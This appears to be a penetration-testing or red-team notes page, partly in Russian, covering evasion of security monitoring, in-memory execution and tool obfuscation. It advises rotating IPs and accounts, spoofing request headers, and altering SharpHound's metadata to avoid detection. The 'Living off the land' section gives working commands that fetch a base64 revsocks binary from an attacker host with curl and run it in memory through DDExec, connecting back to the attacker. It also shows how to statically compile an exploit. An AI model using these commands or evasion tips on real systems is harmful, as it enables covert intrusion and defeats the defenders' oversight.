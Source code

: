 
## SOC evasion

Желательно использовать одну учетную запись для входа с каждого IP-адреса, не переиспользовать их, а также не подключаться с тех адресов, которые использовались для внешней разведки.

Рекомендуется менять заголовки `X-Forwarded-For` и `User-Agent` во время использования автоматических средств.

Помимо обфускации исходного кода у известных утилит, таких, как SharpHound, рекомендуется также изменять их метаданные (описание, заданное разработчиком исходное имя, цифровую подпись и т. д.), а также зашивать ключи для запуска, чтобы их не было видно в процессах.
## Living off the land

Run ELF executables directly from the memory with [DDExec](https://github.com/arget13/DDexec):

```bash
attacker@kali$ cat revsocks | base64 -w0 > revsocks.b64
attacker@kali$ python3 -m http.server
```

```bash
user@victim$: curl $KALI_ADDR:8000/revsocks.b64 | bash <(curl $KALI_ADDR:8000/ddexec.sh) /bin/nothing-here -connect $KALI_ADDR:8443 -pass SuperSecretPassword
```
It is also possible [to run DDExec without dd](https://book.hacktricks.xyz/linux-hardening/bypass-bash-restrictions/bypass-fs-protections-read-only-no-exec-distroless/ddexec).

To compile executables without dependencies:
```
gcc -static exp.c -o exp -l mnl -l nftnl -w
CGO_ENABLED=0 go build ldflags='-s -w' -o /cmd/agent/main.go # golang
```
You can also try [static-get](https://github.com/minos-org/minos-static).

>Notice that Alpine uses musl libc instead of glibc.

[Mitigations](https://www.cisa.gov/sites/default/files/2024-02/Joint-Guidance-Identifying-and-Mitigating-LOTL_V3508c.pdf?utm_source=convertkit&utm_medium=email&utm_campaign=%F0%9F%A4%94+Do+you+even+know+the+difference%3F%20-%2013071642)
## Obfuscation

### NetAssembly

https://github.com/b4rtik/metasploit-execute-assembly

### LLVM

TODO